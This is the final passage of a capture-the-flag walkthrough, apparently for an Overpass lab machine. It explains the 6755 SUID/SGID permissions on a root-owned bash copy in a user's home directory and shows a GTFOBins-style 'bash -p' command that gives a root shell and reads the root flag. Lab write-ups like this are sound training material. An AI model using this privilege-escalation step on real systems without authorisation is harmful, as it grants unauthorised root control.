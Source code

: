 ```text
-rwsr-sr-x
```

You can see it's Octal format by using the stat command:

```text
james@overpass-production:/home/james$ stat -c "%a %U:%G %n" .suid_bash 
6755 root:root .suid_bash
```

There are plenty of helpful sites to explain these permissions in detail, like [this](https://chmodcommand.com/chmod-6755) one or [this](http://www.filepermissions.com/file-permission/6755) one.

This nicely shows what 6755 looks like:

![overpass2-permissions](/assets/images/2021-02-26-22-28-44.png)

The important part is the one on the right. We see others can execute. So although the file is owned by root, we can execute it as james. And setuid is set so we can gain roots privileges.

A quick look on GFTOBins finds what we need [here](https://gtfobins.github.io/gtfobins/bash). Here we see that we can simply execute the file with a -p parameter to escalate to root:

```text
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
.suid_bash-4.4# cat /root/root.txt 
<HIDDEN>
.suid_bash-4.4# 
```

All done. See you next time.
